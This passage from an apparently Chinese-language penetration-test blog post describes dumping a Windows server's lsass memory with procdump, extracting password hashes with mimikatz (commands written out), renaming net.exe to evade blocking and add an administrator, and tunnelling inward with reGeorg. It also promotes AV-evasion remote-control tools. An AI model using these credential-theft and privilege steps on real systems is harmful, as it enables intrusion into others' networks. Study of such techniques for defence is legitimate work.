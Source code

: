 但是事情往往是那么的不尽人意

![](https://mmbiz.qpic.cn/mmbiz_png/CBJYPapLzSEqAtbaDD0hmO0AUicMlliaCfPg8RdjbsQkUxP0WcpyVVDCwnhF6hicy6VUYA9DD4rSgZp5GS6q0ic31Q/640?wx_fmt=png)

。。。n m 玩鸡毛 再试试另一种方法，直接 mimimakatz 读取 administrator 的密码

但是这里是 server2012 尝试使用 procdump 来导出目标主机的 lsass.dmp 到本机用 mimikatz 读取密码

```
1.导出lsass.exeprocdump64.exe -accepteula -ma lsass.exe lsass.dmp2.执行mimikatzmimikatz.exe "sekurlsa::minidump lsass.dmp" "sekurlsa::logonPasswords full" exit（前提需要管理员权限）
```

读出了 hash 没读出明文密码

![](https://mmbiz.qpic.cn/mmbiz_png/CBJYPapLzSEqAtbaDD0hmO0AUicMlliaCfK2jZzvQHgXPOsvXPSTuaGszzl78auvnechxurJ0KTAic2qyTYQW3EXQ/640?wx_fmt=png)

Sha1 解密不出来 还尝试了很多姿势，都没有成功，只能求助大佬了

![](https://mmbiz.qpic.cn/mmbiz_png/CBJYPapLzSEqAtbaDD0hmO0AUicMlliaCfXprjZkibMYrpB4238pyyBciaib7RFgS2O1BElv0X6GhUmWqvz6fqpGI1Q/640?wx_fmt=png)

啥话不说直接开干

copy C:\Windows\System32\net.exe /net1.exe

![](https://mmbiz.qpic.cn/mmbiz_png/CBJYPapLzSEqAtbaDD0hmO0AUicMlliaCfjhk3HkDmC5dicF79d9ud0TicsBibnjlib1PM3dFSPjjBht5LjXbO900JVQ/640?wx_fmt=png)

成功绕过并添加到了管理员组，由于是内网我们直接上 Proxifier+reGeorg

相关使用方法可以参考：https://www.freebuf.com/column/206524.html 进行了解

![](https://mmbiz.qpic.cn/mmbiz_png/CBJYPapLzSEqAtbaDD0hmO0AUicMlliaCfcBh6e9bnOIIIJqXib4S6AibiapVPwAqibxFQQFGghNTSmYzkiboPBpvh7Sw/640?wx_fmt=png)

任务完成 打扫战场 收工

### 总结：

安装相关浏览器插件会很方便的进行信息收集

遇到问题不要一股脑的问别人，先想办法自己解决

多收集一些好用的工具、网站等，用的时候直接就能甩过来

多总结自己的经验和收获，这样你才能在实战中快速上手

[白嫖党的远控免杀福利【Bypass 火绒】](http://mp.weixin.qq.com/s?__biz=MzI4NTcxMjQ1MA==&mid=2247503208&idx=1&sn=bfca828c85aeb295637eb6dd7c7629bf&chksm=ebea8445dc9d0d53ef5706de54ce45dce367b9db44cef91de1e4f9e9f54651ec5be306048122&scene=21#wechat_redirect)  

学习更多黑客技能！体验靶场实战练习  

![](https://mmbiz.qpic.cn/mmbiz_png/CBJYPapLzSFl47EYg6ls051qhdSjLlw0BxJG577ibQVuFIDnM6s3IfO3icwAh4aA9y93tNZ3yPick93sjUs9n7kjg/640?wx_fmt=png)

（黑客视频资料及工具）  

![](https://mmbiz.qpic.cn/mmbiz_gif/CBJYPapLzSEDYDXMUyXOORnntKZKuIu5iaaqlBxRrM5G7GsnS5fY4V7PwsMWuGTaMIlgXxyYzTDWTxIUwndF8vw/640?wx_fmt=gif)

![](https://mmbiz.qpic.cn/mmbiz_png/CBJYPapLzSFTib5w98ocX6Sx1YcmgS0tfPOIyEmD8jse5YLoeZzDibM8rNrQibZPsibKXekZaR8FFV3flUT84nU0LQ/640?wx_fmt=png)
